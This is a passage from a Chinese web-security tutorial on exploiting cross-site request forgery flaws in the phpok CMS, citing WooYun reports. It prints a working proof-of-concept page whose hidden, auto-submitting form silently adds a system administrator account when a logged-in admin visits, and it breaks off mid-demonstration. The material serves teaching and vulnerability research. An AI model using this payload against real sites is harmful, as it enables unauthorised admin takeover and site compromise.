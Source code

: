 0x05 基于CSRF攻击实例
===============

我们来看一下phpok的两个CSRF漏洞如何进行最大化的利用。这两个漏洞均来自乌云：

1.  [phpok csrf添加管理员+后台getshell](http://www.wooyun.org/bugs/wooyun-2010-091886)
2.  [phpok csrf成功getshell(二)](http://www.wooyun.org/bugs/wooyun-2010-091875)

（1）版本4.2.100：

在phpok该版本的后台提交如下POST请求可以添加管理员：

```
POST /phpok/admin.php?c=admin&f=save HTTP/1.1
Host: www.goal.com
…
Cookie: …
（空一行）
id=…&accont=…&pass=…&status=…&if_system=…

```

攻击者可以构造如下页面：

```
<html>
    <div style="display:none">
        <form action="http://localhost/phpok/admin.php?c=admin&f=save" id="poc" name="poc" method="post">
            <input type="hidden" name="id" value=""/>
            <input type="hidden" name="account" value=""/>
            <input type="hidden" name="pass" value=""/>
            <input type="hidden" name="email" value=""/>
            <input type="hidden" name="status" value=""/>
            <input type="hidden" name="if_system" value=""/>
            <input type="submit" name="up" value="submit"/>
        </form>
        <script>
            var t = document.poc;
            t.account.value="wooyun";
            t.pass.value="123456";
            t.status.value="1";
            t.if_system.value="1";
            document.poc.submit();
        </script>
    </div>
</html>

```

攻击发生之前，如图：

![](http://drops.javaweb.org/uploads/images/e78d4040a3c25d8678dd8a122d19e8c700da3a56.jpg)

管理员在登录的情况下访问攻击者的页面之后，如图：
